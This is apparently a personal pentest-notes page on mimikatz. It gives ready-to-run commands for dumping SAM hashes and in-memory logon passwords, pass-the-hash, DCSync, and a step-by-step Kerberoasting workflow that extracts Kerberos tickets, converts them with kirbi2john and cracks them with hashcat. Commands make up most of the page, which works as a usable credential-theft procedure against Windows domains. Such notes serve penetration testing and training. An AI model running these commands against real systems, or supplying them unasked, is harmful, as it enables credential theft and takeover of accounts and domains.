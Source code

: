 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```


# mimikatz

**`mimikatz`** is a tool made in `C` .

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from: https://github.com/ParrotSec/mimikatz.git

## Basic usage


```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machine
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 

# Run a dcsync attack:
.\mimikatz.exe privilege::debug "lsadump::dcsync
/domain:$domain /user:Administrator" exit
```


## An Example

**1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL01.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```


**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.
